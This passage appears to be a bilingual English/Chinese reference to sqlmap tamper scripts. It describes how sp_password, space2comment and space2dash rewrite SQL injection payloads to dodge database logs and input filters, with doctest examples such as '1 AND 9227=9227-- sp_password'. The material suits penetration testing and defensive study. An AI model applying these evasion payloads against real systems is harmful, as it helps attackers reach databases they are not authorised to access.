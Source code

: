 ```py
>>> tamper('SLEEP(5)') == "GET_LOCK('%s',5)" % kb.aliasName
True
```

### sp_password.py

> Appends (MsSQL) function 'sp_password' to the end of the payload for automatic obfuscation from DBMS logs

将 sp_password 附加到有效负载的末尾，用来混淆

Requirement:
* MSSQL

Reference:
* http://websec.ca/kb/sql_injection

```py
>>> tamper('1 AND 9227=9227-- ')
'1 AND 9227=9227-- sp_password'
```

### space2comment.py

> Replaces space character (' ') with comments '/**/'

空格替换成//

Tested against:
* Microsoft SQL Server 2005
* MySQL 4, 5.0 and 5.5
* Oracle 10g
* PostgreSQL 8.3, 8.4, 9.0

```py
>>> tamper('SELECT id FROM users')
'SELECT/**/id/**/FROM/**/users'
```

### space2dash.py

> Replaces space character (' ') with a dash comment ('--') followed by a random string and a new line ('\n')

用一个注释（'--'）代替空格字符（''），后面是一个随机字符串和一个新行（'/n'）。

Requirement:
* MSSQL
* SQLite

Reference:
* https://proton.onsec.ru/contest/

```py
>>> random.seed(0)
>>> tamper('1 AND 9227=9227')
'1--upgPydUzKpMX%0AAND--RcDKhIr%0A9227=9227'
```
